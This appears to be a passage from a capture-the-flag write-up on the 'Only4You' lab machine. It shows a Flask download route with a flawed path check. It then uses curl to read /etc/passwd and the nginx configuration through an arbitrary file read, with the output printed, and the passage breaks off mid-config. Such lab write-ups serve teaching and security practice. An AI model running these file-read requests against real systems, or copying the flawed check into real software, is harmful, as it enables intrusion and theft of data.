 It's a flask app, so lets start looking for interesting things:

![](C:\Users\Mike\AppData\Roaming\marktext\images\2023-04-27-22-24-40-image.png)

 This looked the most promising to me:

```python
@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image) 
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)
```

I used `curl` to send a POST with just a plain `/etc/passwd`, and it worked!

```
kali@kali:~$ curl -d "image=/etc/passwd" http://beta.only4you.htb/download
root:x:0:0:root:/root:/bin/bash
...
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
```

Let's recap real quick on what we know about the target:

1. nginx 1.18

2. OpenSSH 8.2

3. From pulling `/etc/os-release`: Ubuntu 20.04.6 LTS

Starting with nginx, we can look for the default website configurations:

```
kali@kali:~$ curl --output - http://beta.only4you.htb/download -d "image=/etc/nginx/sites-enabled/default"
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
        listen 80;
        server_name only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
        }
}

server {
```